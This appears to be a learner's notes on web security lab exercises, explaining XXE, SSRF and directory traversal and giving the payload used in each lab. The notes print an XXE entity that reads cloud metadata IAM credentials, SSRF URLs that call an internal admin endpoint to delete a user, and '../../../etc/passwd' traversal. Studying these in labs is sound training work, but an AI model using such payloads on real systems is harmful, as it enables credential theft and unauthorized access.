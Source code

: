 Same logic, but we replace file:// with http://169.254.169.254/latest/meta-data/iam/security-credentials/admin, thus:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```
## SSRF - Server Side Request Forgery

It happens when the server makes a request to an arbitrary server, which can even be itself. If the server allows it, we can use, for example, the file:/// directive to whatever file we want the server to fetch, and the server should return that in the response, if its not a blind SSRF.

### SSRF LAB 1

The server sends a request to another server to fetch the stock data, as such we only need to replace the server payload with ours:

```
http://localhost/admin/delete?username=carlos

```
### SSRF LAB 2

We know there's another internal server which is capable of running admin functions, so we brute-force the last octet of the given IP, appending the url path to do the admin action:

```
http%3A%2F%2F192.168.0.x%3A8080/admin/delete?username=carlos

```

## Directory Traversal

It occurs when a file is programatically opened with the filename being user input. For example, in python, `open(userinput)` can lead to this.

An attacker, if the input isn't properly validated, can simply append a payload that traverses through the path, such as: `../../../etc/passwd`. This allows an attacker to see the etc/passwd file,  because .. in Linux means to go back one directory.

### Directory Traversal LAB 1

A filename parameter is used to fetch images, we replace the image name with: 

`../../../etc/passwd` and the password file is show.


## Access Control 

Authorization is the process of determining if a given user can perform the requested actions or access resources.
